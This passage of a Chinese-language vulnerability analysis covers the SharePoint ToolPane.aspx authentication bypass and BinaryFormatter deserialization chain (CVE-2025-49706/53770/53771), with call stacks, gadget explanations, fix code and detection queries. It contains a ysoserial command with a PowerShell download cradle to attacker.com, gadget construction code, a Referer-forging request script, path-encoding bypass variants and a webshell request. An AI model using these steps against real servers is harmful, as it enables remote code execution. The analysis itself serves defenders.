    xmlns:sd="clr-namespace:System.Diagnostics;assembly=System"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    MethodName="Start" 
    ObjectInstance="{x:Static sd:Process}">
    <ObjectDataProvider.MethodParameters>
        <x:String>cmd.exe</x:String>
        <x:String>/c powershell.exe -enc [Base64命令]</x:String>
    </ObjectDataProvider.MethodParameters>
</ObjectDataProvider>
```

**为什么 Gadget 链有效**:

1. 所有使用的类都是 .NET Framework 的一部分,不是恶意代码
2. 反序列化过程会自动调用属性设置器和特定方法
3. 通过巧妙的组合,可以构造出执行任意代码的路径
4. 没有类型白名单就无法阻止这些合法类的实例化

**YsoSerial.NET 工具**:

```
# YsoSerial.NET 的 TypeConfuseDelegate payload 生成
ysoserial.exe -p ViewState \
              -g TypeConfuseDelegate \
              --validationkey="[MachineKey ValidationKey]" \
              --validationalg="SHA1" \
              --decryptionkey="[MachineKey DecryptionKey]" \
              --decryptionalg="AES" \
              --path="/test.aspx" \
              --apppath="/" \
              -c "powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')""

# 输出: Base64 编码的恶意 ViewState
```

## 6. 调用链与数据流分析

### 6.1 完整调用栈 (从 HTTP 请求到 RCE)

```
HTTP Request                     SharePoint Server
     │                                │
     │  POST /_layouts/15/ToolPane.aspx
     │  Referer: /_layouts/SignOut.aspx
     │  Content-Type: application/x-www-form-urlencoded
     │  Body: MSOtlPn_DWP=[WebPart XML]&
     │        MSOtlPn_Uri=[URI]
     │ ────────────────────────────────>
     │                                │
     │                          IIS Pipeline
     │                                │
     │                           BeginRequest
     │                                ▼
     │                        AuthenticateRequest
     │                                ▼
     │                    PostAuthenticateRequest  ← 认证检查点
     │                                │
     │                         [漏洞1: 认证绕过]
     │                         检查 Referer = SignOut.aspx
     │                         → 设置 _skipAuthCheck = true
     │                                │
     │                                ▼
     │                          AuthorizeRequest
     │                                │ (由于 _skipAuthCheck,跳过拒绝)
     │                                ▼
     │                          ResolveRequestCache
     │                                ▼
     │                          MapRequestHandler
     │                                │ (映射到 ToolPane.aspx)
     │                                ▼
     │                          AcquireRequestState
     │                                ▼
     │                          PreRequestHandlerExecute
     │                                ▼
     │                          Page.ProcessRequest()
     │                                │
     │                           ToolPane.OnInit()
     │                                ▼
     │                           ToolPane.OnLoad()
     │                                │
     │                         [漏洞2: 不安全的控件加载]
     │                         解析 MSOtlPn_DWP (WebPart XML)
     │                         提取 TypeName, Assembly
     │                         动态实例化: Type.GetType() + Activator.CreateInstance()
     │                                │
     │                         实例化 ExcelDataSet 控件
     │                                ▼
     │                         设置 CompressedDataTable 属性
     │                         (将 Base64+GZip payload 赋值)
     │                                ▼
     │                         Controls.Add(excelDataSet)
     │                                ▼
     │                         excelDataSet.DataBind()
     │                                │
     │                         访问 DataTable 属性 (触发 getter)
     │                                ▼
     │                         ExcelDataSet.DataTable.get()
     │                                │
     │                         [漏洞3: 不安全的反序列化]
     │                         Convert.FromBase64String()
     │                                ▼
     │                         GZipStream.Decompress()
     │                                ▼
     │                         BinaryFormatter.Deserialize() ← CWE-502
     │                                │
     │                         反序列化恶意对象图 (Gadget Chain)
     │                                ▼
     │                         ObjectDataProvider 实例化
     │                                ▼
     │                         ObjectDataProvider.Refresh()
     │                                │ (自动调用)
     │                                ▼
     │                         Process.Start("cmd.exe", "/c [command]")
     │                                │
     │                          w3wp.exe 进程
     │                                │
     │                           生成子进程: cmd.exe
     │                                │
     │                           cmd.exe /c powershell.exe -enc [...]
     │                                │
     │                           powershell.exe
     │                                │
     │                         执行恶意脚本:
     │                         1. 下载 Webshell (spinstall0.aspx)
     │                         2. 写入 LAYOUTS 目录
     │                         3. 读取 MachineKey
     │                                ▼
     │  <────────────────────  HTTP 200 OK (正常响应)
     │  (但此时已 RCE)             │
     │                                │
     │  后续请求:                      │
     │  GET /spinstall0.aspx?cmd=whoami
     │ ────────────────────────────────>
     │                                │
     │                         执行 Webshell 命令
     │                                ▼
     │  <──────────────────── "nt authority
etwork service"
```

### 6.2 数据流分析

**关键数据流经的组件和转换**:

```
攻击者构造的 Payload 数据流
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

1. 攻击者本地 (生成 Payload):
   ┌─────────────────────────────────────────┐
   │ TypeConfuseDelegate Gadget (对象图)      │
   │   ObjectDataProvider                    │
   │     MethodName = "Start"                │
   │     MethodParameters = ["cmd", "/c ..."]│
   └─────────────────────────────────────────┘
              ↓
        BinaryFormatter.Serialize()
              ↓
   ┌─────────────────────────────────────────┐
   │ 二进制序列化数据 (字节流)                │
   │ 0x00 0x01 0x00 0x00 0x00 ...            │
   └─────────────────────────────────────────┘
              ↓
        GZipStream.Compress()
              ↓
   ┌─────────────────────────────────────────┐
   │ 压缩后的字节流                           │
   │ 0x1F 0x8B 0x08 0x00 ...                 │
   └─────────────────────────────────────────┘
              ↓
        Convert.ToBase64String()
              ↓
   ┌─────────────────────────────────────────┐
   │ Base64 编码字符串                        │
   │ H4sIAAAAAAAA/+2d... (8,700+ 字符)       │
   └─────────────────────────────────────────┘
              ↓
   包装到 WebPart XML 中:
   <Property Name="CompressedDataTable">
     H4sIAAAAAAAA/+2d...
   </Property>
              ↓
   编码到 HTTP POST Body:
   MSOtlPn_DWP=%3CWebPart%20xmlns%3D...

2. 网络传输:
   HTTP POST Request
   ├─ Headers:
   │    Referer: /_layouts/SignOut.aspx
   │    Content-Type: application/x-www-form-urlencoded
   │    Content-Length: 12,483
   ├─ Body:
   │    MSOtlPn_DWP=[URL编码的 WebPart XML]
   └─> 发送到服务器

3. 服务器端 (ToolPane.aspx):
   HTTP Request
              ↓
   Request.Form["MSOtlPn_DWP"]
              ↓
   URL 解码
              ↓
   ┌─────────────────────────────────────────┐
   │ WebPart XML (字符串)                     │
   │ <WebPart>                               │
   │   <TypeName>ExcelDataSet</TypeName>     │
   │   <Property>H4sIAAAAAAAA/+2d...</Prop> │
   │ </WebPart>                              │
   └─────────────────────────────────────────┘
              ↓
   XmlDocument.LoadXml()
              ↓
   XPath 提取: //Property[@Name='CompressedDataTable']
              ↓
   ┌─────────────────────────────────────────┐
   │ Base64 字符串                            │
   │ H4sIAAAAAAAA/+2d...                     │
   └─────────────────────────────────────────┘
              ↓
   PropertyInfo.SetValue(excelDataSet, "CompressedDataTable", value)
              ↓
   ExcelDataSet._compressedData = value
              ↓
   (稍后) DataBind() → 访问 DataTable 属性
              ↓
   Convert.FromBase64String(_compressedData)
              ↓
   ┌─────────────────────────────────────────┐
   │ 压缩的字节流                             │
   │ byte[] { 0x1F, 0x8B, 0x08, ... }        │
   └─────────────────────────────────────────┘
              ↓
   new GZipStream(new MemoryStream(bytes), Decompress)
              ↓
   ┌─────────────────────────────────────────┐
   │ 解压后的字节流                           │
   │ byte[] { 0x00, 0x01, 0x00, ... }        │
   │ (BinaryFormatter 序列化格式)             │
   └─────────────────────────────────────────┘
              ↓
   new BinaryFormatter().Deserialize(gzipStream)
              ↓
   反序列化引擎开始解析:
   ├─ 读取类型信息: ObjectDataProvider
   ├─ 实例化对象
   ├─ 设置属性: MethodName = "Start"
   ├─ 设置属性: MethodParameters = [...]
   └─ 触发 ObjectDataProvider.Refresh()
              ↓
   Reflection: MethodInfo.Invoke()
   调用: Process.Start("cmd.exe", "/c ...")
              ↓
   ┌─────────────────────────────────────────┐
   │ 新进程创建                               │
   │ w3wp.exe (父进程)                        │
   │   └─> cmd.exe /c powershell.exe ...     │
   │         └─> powershell.exe              │
   │               └─> 执行恶意脚本           │
   └─────────────────────────────────────────┘
              ↓
   RCE 完成
```

### 6.3 内存布局与对象生命周期

**反序列化过程中的对象创建**:

```
Managed Heap (托管堆)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

T+0ms: BinaryFormatter.Deserialize() 开始
┌─────────────────────────────────────────────────┐
│ MemoryStream (包含恶意序列化数据)                │
│ Position: 0, Length: 8,192 bytes                │
└─────────────────────────────────────────────────┘

T+5ms: 读取类型元数据
┌─────────────────────────────────────────────────┐
│ Type: System.Windows.Data.ObjectDataProvider    │
│ Assembly: PresentationFramework, Version=...    │
└─────────────────────────────────────────────────┘

T+10ms: Activator.CreateInstance()
┌─────────────────────────────────────────────────┐
│ ObjectDataProvider 对象 @ 0x00A3F8E0            │
│ ├─ _methodName: null                            │
│ ├─ _methodParameters: null                      │
│ └─ _objectInstance: null                        │
└─────────────────────────────────────────────────┘

T+15ms: 设置属性 MethodName
┌─────────────────────────────────────────────────┐
│ ObjectDataProvider @ 0x00A3F8E0                 │
│ ├─ _methodName: "Start"  ← 设置                 │
│ ├─ _methodParameters: null                      │
│ └─ _objectInstance: null                        │
└─────────────────────────────────────────────────┘

T+20ms: 设置属性 ObjectInstance
┌─────────────────────────────────────────────────┐
│ ObjectDataProvider @ 0x00A3F8E0                 │
│ ├─ _methodName: "Start"                         │
│ ├─ _methodParameters: null                      │
│ └─ _objectInstance: ───────────┐                │
│                                 ▼                │
│   ┌─────────────────────────────────────────┐   │
│   │ System.Diagnostics.Process @ 0x00A3FA20 │   │
│   │ (新实例化)                               │   │
│   └─────────────────────────────────────────┘   │
└─────────────────────────────────────────────────┘

T+25ms: 设置属性 MethodParameters
┌─────────────────────────────────────────────────┐
│ ObjectDataProvider @ 0x00A3F8E0                 │
│ ├─ _methodName: "Start"                         │
│ ├─ _methodParameters: ──────────┐               │
│ │                                ▼               │
│ │   ┌────────────────────────────────────┐      │
│ │   │ Collection @ 0x00A3FB00            │      │
│ │   │ [0]: "cmd.exe"                     │      │
│ │   │ [1]: "/c powershell.exe -enc ..."  │      │
│ │   └────────────────────────────────────┘      │
│ └─ _objectInstance: Process @ 0x00A3FA20        │
└─────────────────────────────────────────────────┘

T+30ms: 属性设置触发 PropertyChanged 事件
       → 自动调用 Refresh() 方法

T+35ms: ObjectDataProvider.Refresh() 执行
┌─────────────────────────────────────────────────┐
│ Reflection 调用:                                 │
│ MethodInfo mi = typeof(Process).GetMethod("Start", │
│     new[] { typeof(string), typeof(string) });  │
│ mi.Invoke(_objectInstance, _methodParameters);  │
│                                                 │
│ 等价于:                                          │
│ Process.Start("cmd.exe", "/c powershell...")    │
└─────────────────────────────────────────────────┘

T+40ms: Process.Start() 调用 CreateProcess Win32 API
┌─────────────────────────────────────────────────┐
│ STARTUPINFO si;                                 │
│ PROCESS_INFORMATION pi;                         │
│ CreateProcessW(                                 │
│     L"C:\Windows\System32\cmd.exe",          │
│     L"/c powershell.exe -NoP -NonI...",         │
│     ...                                         │
│ );                                              │
└─────────────────────────────────────────────────┘

T+50ms: 新进程创建
┌─────────────────────────────────────────────────┐
│ Process Tree:                                   │
│ w3wp.exe (PID: 4532)                            │
│   └─> cmd.exe (PID: 7891)                       │
│         └─> powershell.exe (PID: 8024)          │
│               └─> [执行恶意脚本]                 │
└─────────────────────────────────────────────────┘

T+100ms: BinaryFormatter.Deserialize() 返回
         返回值: ObjectDataProvider 对象
         (但此时恶意代码已经执行完毕)
```

## 7. 反序列化机制详解

### 7.1 BinaryFormatter 序列化格式

**.NET BinaryFormatter 的二进制格式**:

```
BinaryFormatter 序列化格式结构
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

[Header]
  0x00 0x01 0x00 0x00 0x00  - SerializationHeaderRecord
    ├─ 0x00: RecordTypeEnum (SerializedStreamHeader)
    ├─ 0x01 0x00 0x00 0x00: RootId
    ├─ 0x01 0x00 0x00 0x00: HeaderId
    └─ 0x01 0x00 0x00 0x00: MajorVersion, MinorVersion

[Object Graph]
  ClassWithId / ClassWithMembersAndTypes
    ├─ ObjectId
    ├─ MetadataId (or full TypeInfo)
    │    ├─ TypeName: "System.Windows.Data.ObjectDataProvider"
    │    ├─ Assembly: "PresentationFramework, Version=4.0..."
    │    └─ MemberNames: ["MethodName", "MethodParameters", ...]
    └─ MemberValues:
         ├─ "Start" (String)
         ├─ Collection (Reference to another object)
         └─ Process instance (Reference to another object)

[References]
  ObjectReference
    ├─ RefId: 指向之前定义的对象
    └─ 建立对象图的引用关系

[End Marker]
  0x0B  - MessageEnd
```

**示例: 简单对象的序列化数据 (十六进制)**:

```
00 01 00 00 00 FF FF FF FF 01 00 00 00 00 00 00
00 0C 02 00 00 00 5A 53 79 73 74 65 6D 2E 57 69
6E 64 6F 77 73 2E 44 61 74 61 2E 4F 62 6A 65 63
74 44 61 74 61 50 72 6F 76 69 64 65 72 2C 20 50
72 65 73 65 6E 74 61 74 69 6F 6E 46 72 61 6D 65
77 6F 72 6B 2C 20 56 65 72 73 69 6F 6E 3D 34 2E
...
```

### 7.2 SerializationBinder 的作用 (缺失的安全控制)

**什么是 SerializationBinder**:

SerializationBinder 是 .NET 提供的安全机制,允许开发者控制反序列化时可以实例化的类型。

**安全的反序列化实现**:

```
// 安全的 SerializationBinder 实现
public sealed class SafeSerializationBinder : SerializationBinder
{
    // 白名单: 只允许这些类型被反序列化
    private static readonly HashSet<string> AllowedTypes = new HashSet<string>
    {
        "System.Data.DataTable, System.Data",
        "System.Data.DataSet, System.Data",
        "System.Data.DataRow, System.Data",
        "System.Data.DataColumn, System.Data",
        // ... 其他安全的类型
    };

    public override Type BindToType(string assemblyName, string typeName)
    {
        string fullTypeName = $"{typeName}, {assemblyName}";
        
        // 检查类型是否在白名单中
        if (!AllowedTypes.Contains(fullTypeName))
        {
            throw new SecurityException(
                $"Type '{fullTypeName}' is not allowed for deserialization. " +
                $"Only whitelisted types are permitted.");
        }
        
        // 返回类型
        return Type.GetType(fullTypeName, throwOnError: true);
    }
}

// 使用示例
var formatter = new BinaryFormatter();
formatter.Binder = new SafeSerializationBinder();  // 设置 Binder

try
{
    object obj = formatter.Deserialize(stream);
    // 只有白名单中的类型才能被成功反序列化
}
catch (SecurityException ex)
{
    // 非白名单类型被阻止
    LogSecurityEvent(ex.Message);
}
```

**CVE-2025-53770 中的问题**: ExcelDataSet 控件的代码中**没有设置** SerializationBinder,导致可以反序列化任意类型。

### 7.3 ObjectDataProvider Gadget 详解

**ObjectDataProvider 的设计目的**:

`ObjectDataProvider` 是 WPF (Windows Presentation Foundation) 中的一个类,设计用于数据绑定场景:

```
// ObjectDataProvider 的正常用法 (XAML)
<ObjectDataProvider x:Key="myData" 
                    ObjectType="{x:Type local:MyDataSource}"
                    MethodName="GetData">
    <ObjectDataProvider.MethodParameters>
        <sys:String>parameterValue</sys:String>
    </ObjectDataProvider.MethodParameters>
</ObjectDataProvider>

<!-- 绑定到UI -->
<TextBlock Text="{Binding Source={StaticResource myData}}" />
```

**为什么它能被滥用**:

1. **自动方法调用**: 当 MethodName 和 MethodParameters 设置后,会自动调用指定方法
2. **反射机制**: 可以调用任意类的任意公共方法
3. **Refresh() 触发**: 属性设置会触发 Refresh(),执行方法调用
4. **在反序列化中被利用**: 反序列化会设置所有属性,触发方法调用

**Gadget 的完整构造**:

```
// 构造一个恶意的 ObjectDataProvider (伪代码,仅用于说明)
// 实际攻击中使用 ysoserial.net 生成

using System;
using System.Diagnostics;
using System.Windows.Data;
using System.Collections;

public class GadgetBuilder
{
    public static object CreateRCEGadget(string command)
    {
        // 创建 ObjectDataProvider 实例
        var provider = new ObjectDataProvider();
        
        // 设置要调用的对象实例 (Process 类)
        provider.ObjectInstance = typeof(Process);
        
        // 设置要调用的方法名
        provider.MethodName = "Start";
        
        // 设置方法参数
        // Process.Start(string fileName, string arguments)
        provider.MethodParameters.Add("cmd.exe");
        provider.MethodParameters.Add($"/c {command}");
        
        // 当这个对象被反序列化时:
        // 1. ObjectDataProvider 实例被创建
        // 2. ObjectInstance, MethodName, MethodParameters 属性被设置
        // 3. 属性设置触发 PropertyChanged 事件
        // 4. Refresh() 方法被自动调用
        // 5. Refresh() 通过反射调用 Process.Start()
        // 6. 执行恶意命令
        
        return provider;
    }
}
```

**Refresh() 方法的内部实现** (简化):

```
// System.Windows.Data.ObjectDataProvider (反编译简化)
public class ObjectDataProvider
{
    private object _objectInstance;
    private string _methodName;
    private IList _methodParameters;
    
    public object ObjectInstance
    {
        get { return _objectInstance; }
        set
        {
            _objectInstance = value;
            OnPropertyChanged("ObjectInstance");  // 触发更新
        }
    }
    
    public string MethodName
    {
        get { return _methodName; }
        set
        {
            _methodName = value;
            OnPropertyChanged("MethodName");  // 触发更新
        }
    }
    
    public IList MethodParameters
    {
        get
        {
            if (_methodParameters == null)
                _methodParameters = new ArrayList();
            return _methodParameters;
        }
    }
    
    private void OnPropertyChanged(string propertyName)
    {
        // 任何属性变化都会触发 Refresh
        BeginQuery();  // 内部调用 Refresh()
    }
    
    // 关键方法: 通过反射调用指定方法
    private void Refresh()
    {
        object target = _objectInstance;
        
        if (target != null && !string.IsNullOrEmpty(_methodName))
        {
            Type targetType = target as Type ?? target.GetType();
            
            // 获取方法信息
            MethodInfo method = targetType.GetMethod(_methodName);
            
            if (method != null)
            {
                object[] parameters = new object[_methodParameters.Count];
                _methodParameters.CopyTo(parameters, 0);
                
                // 调用方法! (这里执行恶意代码)
                object result = method.Invoke(
                    target is Type ? null : target,  // 静态方法时 target 为 null
                    parameters);
            }
        }
    }
}
```

### 7.4 其他常见的 .NET Gadget 链

除了 TypeConfuseDelegate,还有多种 gadget 链可以用于 .NET 反序列化攻击:

**1. WindowsIdentity Gadget**:

```
// System.Security.Principal.WindowsIdentity
// 可以触发 XmlDocument.InnerXml 的设置,进而加载外部 DTD

using System.Security.Principal;

var identity = new WindowsIdentity("username");
// 设置 ClaimsIdentity,触发 XML 解析
// 可以利用 XXE (XML External Entity) 漏洞
```

**2. PSObject Gadget** (PowerShell):

```
// System.Management.Automation.PSObject
// 可以执行 PowerShell 命令

using System.Management.Automation;

var ps = PSObject.AsPSObject(new object());
// 通过特定的属性设置,可以执行 PowerShell 脚本
```

**3. ClaimsIdentity Gadget**:

```
// System.Security.Claims.ClaimsIdentity
// 结合 BinaryFormatter,可以触发代码执行

using System.Security.Claims;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

var claims = new ClaimsIdentity();
// 通过 BootstrapContext 属性,可以注入恶意数据
```

**ysoserial.net 支持的 Gadget 链**:

```
ysoserial.net 内置的 Gadget Generators:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

1. TypeConfuseDelegate       (ObjectDataProvider)
2. WindowsIdentity            (XmlDocument XXE)
3. PSObject                   (PowerShell 执行)
4. ClaimsIdentity             (多种变体)
5. ObjectDataProvider         (直接使用)
6. TextFormattingRunProperties (WPF)
7. AxHostState                (ActiveX)
8. SessionSecurityToken       (WCF)
9. RolePrincipal              (Membership)
10. SessionViewStateHistoryItem (ASP.NET)

查看所有 gadget:
ysoserial.exe -g

查看特定 gadget 的帮助:
ysoserial.exe -g TypeConfuseDelegate -h
```

## 8. 入口鉴权缺陷分析

### 8.1 ASP.NET/IIS 认证管道

**IIS 集成管道模式的认证流程**:

```
IIS Integrated Pipeline 事件序列
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

1. BeginRequest
   └─> 请求开始,初始化 HttpContext

2. AuthenticateRequest
   ├─> Windows Authentication
   ├─> Forms Authentication
   ├─> Anonymous Authentication
   └─> 确定用户身份 (User.Identity)

3. PostAuthenticateRequest  ← 漏洞关键点
   ├─> SharePoint 自定义认证逻辑
   ├─> 检查 Referer
   ├─> 决定是否跳过后续授权检查
   └─> 设置 _skipAuthCheck 标志

4. AuthorizeRequest
   ├─> URL Authorization
   ├─> SharePoint Permission Check
   └─> 如果 _skipAuthCheck=true,跳过检查 ← 漏洞利用点

5. ResolveRequestCache
   └─> 检查输出缓存

6. MapRequestHandler
   └─> 映射到对应的 HTTP Handler (ToolPane.aspx)

7. AcquireRequestState
   └─> 加载 Session 状态

8. PreRequestHandlerExecute
   └─> 执行 Handler 之前的准备

9. ExecuteRequestHandler  ← 执行 ToolPane.aspx
   └─> ToolPane.OnInit() / OnLoad()

10. ReleaseRequestState
11. UpdateRequestCache
12. LogRequest
13. EndRequest
```

### 8.2 Referer 头部滥用

**为什么 Referer 不应该用于安全决策**:

HTTP Referer 头部是**完全可控**的,攻击者可以任意伪造:

```
# Python 示例: 伪造 Referer
import requests

url = "https://sharepoint.victim.com/_layouts/15/ToolPane.aspx"
headers = {
    # 伪造 Referer,让服务器认为请求来自 SignOut.aspx
    "Referer": "https://sharepoint.victim.com/_layouts/SignOut.aspx",
    "User-Agent": "Mozilla/5.0...",
    "Content-Type": "application/x-www-form-urlencoded"
}

data = {
    "MSOtlPn_DWP": "[恶意 WebPart XML]",
    "MSOtlPn_Uri": "/_layouts/15/WebPartPage.aspx"
}

response = requests.post(url, headers=headers, data=data, verify=False)
```

**Referer 检查的错误模式**:

```
// 错误的安全检查 (CVE-2025-49706/53770 中的模式)

if (Request.UrlReferrer != null &&
    Request.UrlReferrer.PathAndQuery.Contains("SignOut.aspx"))
{
    // 错误地认为这是"安全的"请求
    _allowAnonymous = true;
}

// 问题:
// 1. Contains 而非精确匹配
// 2. 没有验证 Referer 的 Host
// 3. 没有检查请求的目标路径
// 4. Referer 完全可伪造
```

**正确的实现** (基于微软的最终修复):

```
// 正确的白名单检查
private static readonly HashSet<string> AllowedPathsWithSignOutReferrer = new HashSet<string>(StringComparer.OrdinalIgnoreCase)
{
    "/_layouts/15/init.js",
    "/_layouts/15/core.js",
    "/ScriptResource.axd",
    "/WebResource.axd"
    // 注意: ToolPane.aspx 不在此列表中
};

public bool IsAllowed(HttpRequest request)
{
    // 1. 规范化路径
    string requestPath = NormalizePath(request.FilePath);
    string referrerPath = request.UrlReferrer != null 
        ? NormalizePath(request.UrlReferrer.PathAndQuery) 
        : null;
    
    // 2. 检查 Referer 是否是 SignOut.aspx
    bool isSignOutReferrer = referrerPath != null &&
        referrerPath.Equals("/_layouts/15/SignOut.aspx", StringComparison.OrdinalIgnoreCase);
    
    // 3. 如果是 SignOut Referer,只允许白名单中的资源
    if (isSignOutReferrer)
    {
        if (!AllowedPathsWithSignOutReferrer.Contains(requestPath))
        {
            // ToolPane.aspx 不在白名单中,拒绝访问
            return false;
        }
    }
    
    // 4. 其他情况,执行正常的认证检查
    return request.IsAuthenticated || !RequiresAuthentication(requestPath);
}

private string NormalizePath(string path)
{
    if (string.IsNullOrEmpty(path)) return string.Empty;
    
    // URL 解码
    path = Uri.UnescapeDataString(path);
    
    // 移除查询字符串
    int queryIndex = path.IndexOf('?');
    if (queryIndex >= 0)
        path = path.Substring(0, queryIndex);
    
    // 规范化斜杠
    path = path.Replace('\', '/').TrimEnd('/');
    
    // 移除多余斜杠
    while (path.Contains("//"))
        path = path.Replace("//", "/");
    
    return path.ToLowerInvariant();
}
```

### 8.3 认证绕过的演化历史

**漏洞链的修复演化**:

```
CVE 修复演化史
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

2025-07-08 之前 (易受攻击):
┌─────────────────────────────────────────────────┐
│ if (Referer.Contains("SignOut.aspx"))           │
│     _skipAuth = true;                           │
│ // 可被任意 Referer 绕过                         │
└─────────────────────────────────────────────────┘

2025-07-08 修复 (CVE-2025-49706):
┌─────────────────────────────────────────────────┐
│ if (Referer.Contains("SignOut.aspx") &&         │
│     !Path.EndsWith("ToolPane.aspx"))            │
│     _skipAuth = true;                           │
│ // 可通过路径变体绕过: ToolPane.aspx/ 或 ?参数   │
└─────────────────────────────────────────────────┘

2025-07-19 修复 (CVE-2025-53770):
┌─────────────────────────────────────────────────┐
│ if (Referer == "/_layouts/SignOut.aspx" &&      │
│     AllowedPaths.Contains(NormalizePath(Path))) │
│     _skipAuth = true;                           │
│ // 仍有规范化问题 (URL 编码等)                   │
└─────────────────────────────────────────────────┘

2025-07-24 最终修复 (CVE-2025-53771):
┌─────────────────────────────────────────────────┐
│ string normalized = FullNormalize(Path);        │
│ if (Referer == "/_layouts/15/SignOut.aspx")     │
│ {                                               │
│     if (!WhiteList.Contains(normalized))        │
│         throw UnauthorizedAccessException();    │
│ }                                               │
│ // 完整的规范化 + 严格的白名单                    │
└─────────────────────────────────────────────────┘
```

**每次绕过的技术细节**:

```
# CVE-2025-49706 利用 (原始漏洞)
POST /_layouts/15/ToolPane.aspx
Referer: https://target.com/_layouts/SignOut.aspx
# 直接绕过,无需技巧

# CVE-2025-53770 利用 (绕过第一次修复)
POST /_layouts/15/ToolPane.aspx/
Referer: https://target.com/_layouts/SignOut.aspx
# 末尾加斜杠,EndsWith 检查失效

# 或者
POST /_layouts/15/ToolPane.aspx?dummy
Referer: https://target.com/_layouts/SignOut.aspx
# 添加查询参数,EndsWith 检查失效

# CVE-2025-53771 利用 (绕过第二次修复)
POST /_layouts/15/ToolPane%2easpx
Referer: https://target.com/_layouts/SignOut.aspx
# URL 编码绕过,规范化不完整

# 或者
POST /_layouts/15/./ToolPane.aspx
Referer: https://target.com/_layouts/SignOut.aspx
# 路径遍历,规范化处理不当
```

## PART III: 攻击链与利用

### 第9章: 完整攻击链分解 (10阶段详解)

从初始访问到持久化的完整流程,结合 MITRE ATT&CK 框架。

#### 9.1 阶段1: 侦察与信息收集 (Reconnaissance)

**MITRE ATT&CK**: T1592.002 (Gather Victim Host Information: Software)

**攻击者行为**:

```
# 1. 识别 SharePoint 实例
nmap -p 80,443 --script http-title target.com
curl -I https://target.com/_layouts/15/start.aspx

# 2. 版本指纹识别
curl https://target.com/_vti_pvt/service.cnf 2>/dev/null | grep "vti_extenderversion"
# 输出: vti_extenderversion:SR|16.0.0.15028  (SharePoint 2019 RTM,易受攻击)

# 3. 检测可匿名访问的端点
for path in ToolPane.aspx error.aspx versioninfo.aspx; do
  curl -s -o /dev/null -w "%{http_code}" \
    -H "Referer: https://target.com/_layouts/SignOut.aspx" \
    https://target.com/_layouts/15/$path
done
# 200 = 可匿名访问,401/403 = 需要认证
```

**防守检测**:

```
-- Splunk 查询: 检测版本信息泄露
index=web_logs sourcetype=iis 
  uri_path IN ("*/_vti_pvt/*", "*/_layouts/15/versioninfo.aspx")
| stats count by src_ip, uri_path
| where count > 5
```

#### 9.2 阶段2: 初始访问 - 认证绕过 (Initial Access)

**MITRE ATT&CK**: T1190 (Exploit Public-Facing Application)

**技术实现**

```
// 服务端漏洞代码 (PostAuthenticateRequestHandler - 简化版)
protected void OnPostAuthenticateRequest(object sender, EventArgs e)
{
    HttpRequest request = context.Request;
    Uri referrer = request.UrlReferrer;
    
    // 易受攻击的逻辑 (CVE-2025-49706/53770)
    if (referrer != null && 
        referrer.PathAndQuery.EndsWith("SignOut.aspx", StringComparison.OrdinalIgnoreCase))
    {
        // 错误! 应该只允许静态资源,却允许了所有页面
        _skipAuthenticationCheck = true;
    }
    
    if (!_skipAuthenticationCheck && !request.IsAuthenticated)
    {
        context.Response.StatusCode = 401;
        context.Response.End();
    }
}
```

**攻击请求** (防守视角,无武器化载荷):

```
POST /_layouts/15/ToolPane.aspx HTTP/1.1
Host: target.com
Referer: https://target.com/_layouts/SignOut.aspx
Content-Type: application/x-www-form-urlencoded
Content-Length: 12345

MSOtlPn_DWP=<safe_markup>&MSOtlPn_Uri=...
```

**关键点**:

* 无需任何凭据
* Referer 头触发 `_skipAuthenticationCheck = true`
* 进入 ToolPane.aspx 的控件加载流程

#### 9.3 阶段3: 控件实例化与反序列化 (Execution)

**MITRE ATT&CK**: T1059.006 (Command and Scripting Interpreter: Python/C#)

**调用栈**

```
[1] ToolPane.aspx.OnLoad()
     └─ Request["MSOtlPn_DWP"] → WebPart 标记解析

[2] WebPartManager.CreateWebPart(webPartMarkup)
     └─ 实例化 ExcelDataSet 控件

[3] ExcelDataSet.CompressedDataTable.set(base64GzipData)
     └─ 存储压缩数据到 _compressedData 字段

[4] ExcelDataSet.DataBind() 被调用 (自动触发)
     └─ 访问 DataTable 属性

[5] ExcelDataSet.DataTable.get()
     └─ 解压 _compressedData
     └─ BinaryFormatter.Deserialize(gzipStream)  ← 危险!

[6] BinaryFormatter 遇到 ObjectDataProvider 对象
     └─ 自动调用 MethodName 指定的方法
     └─ Process.Start(powershell.exe, -EncodedCommand ...)

[7] w3wp.exe → cmd.exe → powershell.exe
     └─ RCE 实现
```

**代码层危险点**

```
public DataTable DataTable
{
    get
    {
        if (_dataTable == null && !string.IsNullOrEmpty(_compressedData))
        {
            // 步骤1: Base64 解码
            byte[] compressedBytes = Convert.FromBase64String(_compressedData);
            
            // 步骤2: GZip 解压
            using (var ms = new MemoryStream(compressedBytes))
            using (var gz = new GZipStream(ms, CompressionMode.Decompress))
            {
                // 步骤3: 危险的通用反序列化
                var formatter = new BinaryFormatter();
                // 没有 SerializationBinder! 可以实例化任意类型!
                object obj = formatter.Deserialize(gz);
                
                _dataTable = obj as DataTable;  // 类型转换 (攻击时会失败,但已太晚)
            }
        }
        return _dataTable;
    }
}
```

**为什么能执行代码?**

BinaryFormatter 反序列化过程:

```
1. 读取类型元数据: System.Windows.Data.ObjectDataProvider
2. 实例化对象: new ObjectDataProvider()
3. 恢复字段值:
   - ObjectInstance = typeof(System.Diagnostics.Process)
   - MethodName = "Start"
   - MethodParameters = ["powershell.exe", "-EncodedCommand <base64>"]
4. 调用属性 getter: ObjectDataProvider.Data.get()
   → 内部触发 MethodInfo.Invoke(ObjectInstance, MethodParameters)
   → Process.Start(...) 被调用
   → 代码执行!
```

#### 9.4 阶段4: 初始载荷执行 (Execution)

**MITRE ATT&CK**: T1059.001 (PowerShell)

**典型 PowerShell 载荷** (仅示意结构,非真实恶意代码):

```
# 攻击者的 EncodedCommand (Base64 编码的 PowerShell)
# 实际功能: 写入 webshell,提取 MachineKey

